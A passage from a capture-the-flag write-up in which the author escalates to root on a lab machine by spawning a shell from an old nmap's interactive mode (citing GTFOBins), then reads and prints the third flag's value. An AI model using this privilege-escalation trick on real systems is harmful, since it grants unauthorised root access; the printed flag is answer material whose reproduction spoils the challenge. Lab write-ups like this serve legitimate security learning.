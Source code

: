 ![11.png](/assets/11.png)

##  It had an old version of nmap running so let's go to gtfobins and type nmap 
https://gtfobins.github.io/

![12.png](/assets/12.png)

```bash
robot@linux:/dev/shm$ nmap --interactive  
  
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )  
Welcome to Interactive Mode -- press h <enter> for help  
nmap> !sh
#
```
## then we are rooted the box  let's read the last flag
```bash
# cd /root  
# ls  
firstboot_done  key-3-of-3.txt  
# cat key-3-of-3.txt  
04787ddef27c3dee1ee161b21670b4e4  // the root flag
#
```
